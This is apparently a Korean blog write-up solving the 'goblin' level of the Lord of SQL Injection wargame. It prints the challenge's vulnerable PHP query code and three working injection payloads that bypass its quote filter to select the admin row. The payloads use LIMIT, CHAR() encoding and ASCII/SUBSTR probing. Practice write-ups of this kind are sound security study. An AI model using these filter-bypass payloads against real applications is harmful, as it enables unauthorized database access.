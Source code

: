 ```yaml
---
title: Lord of SQL Injection Write Up No.3 Goblin
date: 2019-08-14 21:34:04
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 3번 goblin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

따옴표를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

goblin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
```

- GET방식으로 `no`를 받고, `no`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `no`에 `'`, `"`, \` 가 들어 있으면 `No Quotes ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("goblin");
```

- 받은 `no`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `LIMIT` 구문 이용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or 1=1 limit 1,1-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
   ```

   `LIMIT` 구문을 이용한 SQL Injection이 잘 이해가 되지 않으면 **2번 Cobolt 문제 Write Up**의 **3번 Solution** 부분을 참고하자.

2. `CHAR` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or id=char(97, 100, 109, 105, 110)-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or id=char(97, 100, 109, 105, 110)-- -
   ```

   이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 `CHAR`를 이용하여 `id`가 `admin`인 행을 찾아 선택하도록 만든다.
   ASCII에서, `'a'`=`97`, `'d'`=`100`, `'m'`=`109`, `'i'`=`105`, `'n'`=`110`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. `ASCII`, `SUBSTR` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or ascii(substr(id, 1, 1))=97-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or ascii(substr(id, 1, 1))=97-- -
   ```

   이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 `ASCII를` 이용하여 `id`가 `a`로 시작하는 행을 찾아 선택하도록 만든다.
   이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 `a`, 2번째 글자가 `d`, 3번째 글자가 `m`, 4번째 글자가 `i`, 5번째 글자가 `n`인 행을 찾도록 조작하면 된다.
   ASCII에서, `'a'`=`97`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
